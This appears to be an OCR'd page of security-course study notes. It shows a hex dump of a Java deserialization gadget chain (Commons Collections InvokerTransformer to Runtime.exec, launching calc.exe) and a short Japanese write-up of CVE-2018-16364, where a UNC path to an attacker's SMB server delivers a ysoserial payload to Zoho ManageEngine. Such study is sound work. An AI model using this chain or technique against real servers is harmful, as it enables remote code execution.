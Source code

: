 ```txt
00000500  63 74 6f 72 73 2e 43 6f  6e 73 74 61 6e 74 54 72  |ctors.ConstantTr|
00000510  61 6e 73 66 6f 72 6d 65  72 58 76 90 11 41 02 b1  |ansformerXv..A..|
00000520  94 02 00 01 4c 00 09 69  43 6f 6e 73 74 61 6e 74  |....L..iConstant|
00000530  71 00 7e 00 01 78 70 76  72 00 11 6a 61 76 61 2e  |q.~..xpvr..java.|
00000540  6c 61 6e 67 2e 52 75 6e  74 69 6d 65 00 00 00 00  |lang.Runtime....|
00000550  00 00 00 00 00 00 00 78  70 73 72 00 3a 6f 72 67  |.......xpsr.:org|
00000560  2e 61 70 61 63 68 65 2e  63 6f 6d 6d 6f 6e 73 2e  |.apache.commons.|
00000570  63 6f 6c 6c 65 63 74 69  6f 6e 73 2e 66 75 6e 63  |collections.func|
00000580  74 6f 72 73 2e 49 6e 76  6f 6b 65 72 54 72 61 6e  |tors.InvokerTran|
00000590  73 66 6f 72 6d 65 72 87  e8 ff 6b 7b 7c ce 38 02  |sformer...k{|.8.|
000005a0  00 03 5b 00 05 69 41 72  67 73 74 00 13 5b 4c 6a  |..[..iArgst..[Lj|
000005b0  61 76 61 2f 6c 61 6e 67  2f 4f 62 6a 65 63 74 3b  |ava/lang/Object;|
000005c0  4c 00 0b 69 4d 65 74 68  6f 64 4e 61 6d 65 71 00  |L..iMethodNameq.|
000005d0  7e 00 05 5b 00 0b 69 50  61 72 61 6d 54 79 70 65  |~..[..iParamType|
000005e0  73 74 00 12 5b 4c 6a 61  76 61 2f 6c 61 6e 67 2f  |st..[Ljava/lang/|
000005f0  43 6c 61 73 73 3b 78 70  75 72 00 13 5b 4c 6a 61  |Class;xpur..[Lja|
00000600  76 61 2e 6c 61 6e 67 2e  4f 62 6a 65 63 74 3b 90  |va.lang.Object;.|
00000610  ce 58 9f 10 73 29 6c 02  00 00 78 70 00 00 00 02  |.X..s)l...xp....|
00000620  74 00 0a 67 65 74 52 75  6e 74 69 6d 65 75 72 00  |t..getRuntimeur.|
00000630  12 5b 4c 6a 61 76 61 2e  6c 61 6e 67 2e 43 6c 61  |.[Ljava.lang.Cla|
00000640  73 73 3b ab 16 d7 ae cb  cd 5a 99 02 00 00 78 70  |ss;......Z....xp|
00000650  00 00 00 00 74 00 09 67  65 74 4d 65 74 68 6f 64  |....t..getMethod|
00000660  75 71 00 7e 00 2f 00 00  00 02 76 72 00 10 6a 61  |uq.~./....vr..ja|
00000670  76 61 2e 6c 61 6e 67 2e  53 74 72 69 6e 67 a0 f0  |va.lang.String..|
00000680  a4 38 7a 3b b3 42 02 00  00 78 70 76 71 00 7e 00  |.8z;.B...xpvq.~.|
00000690  2f 73 71 00 7e 00 28 75  71 00 7e 00 2c 00 00 00  |/sq.~.(uq.~.,...|
000006a0  02 70 75 71 00 7e 00 2c  00 00 00 00 74 00 06 69  |.puq.~.,....t..i|
000006b0  6e 76 6f 6b 65 75 71 00  7e 00 2f 00 00 00 02 76  |nvokeuq.~./....v|
000006c0  72 00 10 6a 61 76 61 2e  6c 61 6e 67 2e 4f 62 6a  |r..java.lang.Obj|
000006d0  65 63 74 00 00 00 00 00  00 00 00 00 00 00 78 70  |ect...........xp|
000006e0  76 71 00 7e 00 2c 73 71  00 7e 00 28 75 72 00 13  |vq.~.,sq.~.(ur..|
000006f0  5b 4c 6a 61 76 61 2e 6c  61 6e 67 2e 53 74 72 69  |[Ljava.lang.Stri|
00000700  6e 67 3b ad d2 56 e7 e9  1d 7b 47 02 00 00 78 70  |ng;..V...{G...xp|
00000710  00 00 00 01 74 00 08 63  61 6c 63 2e 65 78 65 74  |....t..calc.exet|
00000720  00 04 65 78 65 63 75 71  00 7e 00 2f 00 00 00 01  |..execuq.~./....|
00000730  71 00 7e 00 34 73 71 00  7e 00 24 73 72 00 11 6a  |q.~.4sq.~.$sr..j|
00000740  61 76 61 2e 6c 61 6e 67  2e 49 6e 74 65 67 65 72  |ava.lang.Integer|
00000750  12 e2 a0 a4 f7 81 87 38  02 00 01 49 00 05 76 61  |.......8...I..va|
00000760  6c 75 65 78 72 00 10 6a  61 76 61 2e 6c 61 6e 67  |luexr..java.lang|
00000770  2e 4e 75 6d 62 65 72 86  ac 95 1d 0b 94 e0 8b 02  |.Number.........|
00000780  00 00 78 70 00 00 00 01  73 72 00 11 6a 61 76 61  |..xp....sr..java|
00000790  2e 75 74 69 6c 2e 48 61  73 68 4d 61 70 05 07 da  |.util.HashMap...|
000007a0  c1 c3 16 60 d1 03 00 02  46 00 0a 6c 6f 61 64 46  |...`....F..loadF|
000007b0  61 63 74 6f 72 49 00 09  74 68 72 65 73 68 6f 6c  |actorI..threshol|
000007c0  64 78 70 3f 40 00 00 00  00 00 00 77 08 00 00 00  |dxp?@......w....|
000007d0  10 00 00 00 00 78 78                              |.....xx|
000007d7
root@kali:~/Documents/AWAE/javaDeserialization/ex1# 
```
# writeup
## Deserialize readObject() to RCE / craft UNC SMB-Server's path (CVE-2018-16364)
https://blog.jamesotten.com/post/applications-manager-rce/  
Windows上ではUNCパス`\\ip\path\to\file\test.txt`(実際にローカルにあるわけではないがSMBとかでローカルにあるようにして扱えるパス？)を作成することができるので、ここにPayload仕込んでおけばアクセスしたときにそのPayloadを読み込める。  
Zoho ManageEngine Applications Manager before build 13740の`CustomFieldsFeedServlet`クラス(?)の`customFieldObject`フィールドに`/servlet/CustomFieldsFeedServlet?customFieldObject=`みたいにして値をセットできるらしくて、そこにパスを書いておけばそのパスを`readObject`でデシリアライズしようとする脆弱性らしい。  
攻撃者SMBサーバーにysoserialで作成したCommonsCollections1のガジェットを用意しておいて、SMBへのパスをフィールドにセットすればそのガジェットを読み込んでRCE！  
